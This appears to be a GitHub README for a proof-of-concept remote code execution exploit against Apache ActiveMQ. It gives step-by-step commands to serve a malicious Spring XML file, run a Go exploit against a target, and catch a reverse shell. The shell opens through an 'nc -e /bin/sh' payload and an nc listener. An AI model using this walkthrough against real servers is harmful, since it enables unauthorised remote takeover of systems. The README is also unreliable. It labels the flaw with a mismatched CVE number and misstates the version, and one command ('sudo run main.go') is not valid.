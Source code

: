 # POC | CVE-2023-26604

**Ready to environment:**

1. Download Active MQ 18.0.0 Release fromhere:
https://activemq.apache.org/activemq-5018000-release

2.Install the Active MQ based on instructions, you can use it:
https://www.techbeginner.in/2019/12/how-to-install-apache-activemq-on-ubuntu-16-04.html

3. Tested on Kali (Debian) current distribution.

**Build POC:**

 1. $ python3 -m http.server 8001 (where the .xml poc file)
 2. $ sudo go build main.go (build & run go file)
 3. $ sudo run main.go
 4. $ systemctl status activemq  (Check the Activemq service is up)
 5. Check the values tags on xml file as:

                <value>sh</value>
                <value>-c</value>
                <value>nc -e /bin/sh <target_ip> 4444</value>
6. Check the default values. You don't need to review it:
	- flag.StringVar(&ip, "i", "", "ActiveMQ Server IP or Host")
	- flag.StringVar(&port, "p", "61616", "ActiveMQ Server Port")
	- flag.StringVar(&url, "u", "", "Spring XML Url")\n
	- flag.Parse()

**Run POC:**

7. $ ./main -i <target_ip> -u http://127.0.0.1:8001/poc-linux.xml
8.  $ nc -lvnp 4444 (listening for reverse shell)
